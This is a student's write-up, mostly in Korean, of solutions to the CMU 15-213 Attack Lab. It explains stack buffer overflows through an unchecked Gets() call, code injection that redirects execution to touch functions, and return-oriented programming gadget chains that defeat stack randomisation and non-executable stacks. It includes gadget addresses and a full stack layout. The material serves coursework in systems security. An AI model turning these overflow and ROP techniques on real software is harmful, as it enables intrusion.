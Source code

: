 # Lab3 Attacklab

> [09-machine-advanced.pdf](https://www.cs.cmu.edu/afs/cs/academic/class/15213-f15/www/lectures/09-machine-advanced.pdf)
> video [lecture](https://scs.hosted.panopto.com/Panopto/Pages/Sessions/List.aspx#folderID=%22b96d90ae-9871-4fae-91e2-b1627b43e25e%22)

The original lab material is `target1.tar`. My solution for phase 1~3 are in `target1/inj_atk` and for phase 4,5 is in `target1/ROP`. You should read `attacklab.pdf` first.

### code injection attack

- phase 1

`0x4017c0` 주소의 `touch1()` 함수를 호출해야 한다.

```asm
getbuf:
    sub    $0x28,%rsp
    mov    %rsp,%rdi
    call   0x401a40 <Gets>
    mov    $0x1,%eax
    add    $0x28,%rsp
    ret
```

`getbuf()` 는 스택에 40 byte 를 allocate 하고, 그 주소를 `Gets()` 에 넘겨준다. 우리는 `stdin` 을 통해, 그 주소로부터의 메모리에 접근할 수 있다. 40 byte 바로 위의 stack 에는 `getbuf()` 를 호출한 다음 명령어의 주소가 들어 있어 `ret` 을 입력받으면 그곳으로 `jump` 하는데, `Gets()` 는 입력받은 문자열의 길이를 검사하지 않으므로 40 바이트 이후의 입력을`0x4017c0` 으로 주면 `touch1` 에 접근할 수 있다.

`./hexdump < ./inj_atk/touch11.txt | ./rtarget -q`

- phase 2

`0x4017ec` 주소의 `touch2` 함수를 `cookie.txt` 에 있는 쿠키값을 매개변수로 하여 호출하여야 한다. 즉, `touch2` 함수를 호출하기 전에 `%rdi` 를 `0x59b997fa` 로 설정해야 한다. 그것을 위해 `getbuf()` 에서 stack 에 allocate 한 40 byte 의 공간에 명령어를 입력한 뒤, `0x4017ec` 로 `jump` 하도록 하자.

`getbuf()` 가 `ret` 된 뒤에는, stack 에 inject 한 명령어의 주소로 `jump` 해야 하므로, 40 byte 이후에는 그 주소를 입력해놓고, 그 다음 `touch2()` 가 호출되도록 `0x4017ec` 를 입력하자.

`touch22.asm` 에는 inject 할 명령어의 어셈블리 코드가 있다. `nasm -f elf64 touch22.asm` 을 통해 `touch22.o` 를 생성하고, `objdump -d touch22.o` 를 통해 해당 바이너리의 hex representation 을 보고 코드에 입력했다.

`getbuf()` 의 `caller` 인 `test()` 를 보면 `sub $0x8,%rsp` 를 통해 스택에 8 바이트를 allocate 하고 있는데, 스택의 어느 위치에 `touch2()` 의 주소를 입력하던 올바른 `%rsp` 를 설정하기만 하면 상관 없다.

문제의 경우에서 `touch2()` 는 리턴하지 않고 `exit` 나 `validate` 를 호출하여 프로세스를 종료시키므로 어디에 caller 의 주소가 입력되는지는 상관 없지만 만약 `touch2()` 가 리턴되었을 때에 `test()` 의 caller 로 돌아가게 하고 싶다면 `test()` 에서 allocate 한 8바이트의 공간에 리턴 주소를 입력시키고, inject 한 코드는 `rsp` 를 증가시키지 않고 리턴해야 한다.

`./hexdump < ./inj_atk/touch12.txt | ./rtarget -q`

- phase 3

`phase 2` 와 비슷하지만 이번엔 cookie 를 스트링으로 입력해야 한다. 아스키 코드로 인코딩한 후 메모리에 잘 inject 하고, `%rsi` 를 그 주소로 지정하는 코드도 inject 한 후, `phase 2` 와 똑같이 진행시켜 주자.

`./hexdump < ./inj_atk/touch13.txt | ./rtarget -q`

### return-oriented programming

- phase 4

`phase 2` 와 똑같이 cookie 를 인자로 `touch2` 를 호출하면 되지만 이번에 사용할 프로그램 `rtarget` 은 a) 스택의 주소를 무작위로 지정하며, b) 스택이 포함된 메모리 부분을 nonexecutable 로 설정하여 스택의 명령어가 execute 되면 segment fault 가 나도록 하는 방어 기술이 적용되어 있다.

그러나 `Gets()` 의 오버플로우 취약점은 여전하므로, 스택에 명령어 주소를 잘 배열하여 리턴시 예견되지 않은 명령을 실행할 수 있다. `start_farm` 부터 `mid_farm` 까지의 명령어를 잘 조합하여 `touch2(cookie)` 를 호출해 보자.

```d
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   

00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   
```

다음 두 함수를 보면 `48 89 c7 c3` 은 `movq %rax, %rdi;ret` 로 인코딩되고, `58 90 c3` 은 `popq %rax;nop;ret` 로 인코딩된다. 즉, `0x4019ab` 와 `cookie`, `0x4019a2` 를 순차적으로 스택에 배열하면, `cookie` 값이 `pop` 되어서 `%rax` 에 적재된 이후, 이 값이 `%rdi` 로 옮겨진다. 이후 `touch2` 를 리턴하면 끝.

- phase 5

이번엔 `start_farm` 부터 `end_farm` 까지 주어진 더미 명령어들을 모두 이용하여 `phase 3` 의 스트링 호출을 하면 된다. 그걸 위해서 우리는 a) 스트링을 메모리에 입력시키고, b) 그 주소를 `%rdi` 에 적재하는 instruction 을 쨔야 한다. 헌데 앞서 언급한 방어책이 `rtarget` 에 적용되어 그 주소는 프로세스 이전에 예측할 수 없으므로, `%rsp` 로부터 그 주소를 알아내는 프로그램을 쨔야 한다.

중간에 있는 `add_xy` 함수로부터 `%rsp` 값과 거기로부터 떨어져있는 목표 스트링의 위치를 각각 `%rdi`, `%rsi` 에 적재하고, `add_xy` 를 호출한 후 `movq %rax, %rdi` 를 하도록 큰 틀을 잡는다.

구체적으로 사용할 수 있는 instruction 을 보기 위해 나는 `start_farm` 부터 `end_farm` 까지의 hex 코드를 메모장에 복사 붙여넣기 해서 `89` 로 검색해 사용할 수 있는 모든 `mov` instruction 을 파악한 뒤에, 해당 설계를 그 instruction 만으로 구현했다. 이 방법을 통해 `phase 5` 를 해결하는데에 걸리는 시간을 획기적으로(1시간 미만) 줄일 수 있었다. 아래는 그렇게 만든 코드의 어셈블리이다.

```asm
movq %rsp, %rax              # (1)
movq %rax, %rdi              # (2)
popq %rax                    # (3)
movl %eax, %edx              # (4)
movl %edx, %ecx              # (5)
movq %rcx, %rsi              # (6)
lea (%rdi, %rsi, 1), %rax    # (7)
movq %rax, %rdi              # (8)
```

여기서 주의할 점은, 중간에 32비트 instruction 이 사용된다는 거다. 이 instruction 은 레지스터의 하위 32비트에만 영향을 끼치고, 상위 32비트에는 아무 영향을 끼치지 않는다. 즉 `%rax` 에 적재된 값이 음수라면, 중간에 이 instruction 때문에 `add_xy` 를 통해 제대로 뺄 수 없다. 따라서 나는 타깃 문자열을 스택의 최하단에 배치하여 문자열이 (1) 번 명령줄의 `%rsp` 값보다 높은 메모리 주소를 갖도록 했다. 구체적인 스택의 배열은 다음과 같을 것이다:

|   주소  |    설명   | 값 |  |  |  |  | |  |    |
|:------:|:---------:|--|--|--|--|--|--|--|----|
|rsp + 80|string     |??|??|??|??|??|??|??|'\0'| 
|rsp + 72| string    |'a'|'f'|'7'|'9'|'9'|'b'|'9'|'5'|
|rsp + 64|touch3     |00|00|00|00|00|40|18|fa|
|rsp + 56| (8)       |00|00|00|00|00|40|19|a2|
|rsp + 48| (7)       |00|00|00|00|00|40|19|d6|
|rsp + 40| (6)       |00|00|00|00|00|40|1a|13|
|rsp + 32| (5)       |00|00|00|00|00|40|1a|34|
|rsp + 24| (4)       |00|00|00|00|00|40|19|dd|
|rsp + 16| number, 72|00|00|00|00|00|00|00|48|
|rsp + 8 | (3, pop)  |00|00|00|00|00|40|19|ab|
|  rsp   | (2)       |00|00|00|00|00|40|19|a2|
|rsp - 8 | (1)       |00|00|00|00|00|40|1a|06|

왼쪽의 "주소" 행의 주소는 "값" 행의 제일 오른쪽 바이트의 주소를 의미하며, 왼쪽으로 갈수록 메모리 주소가 1씩 증가한다.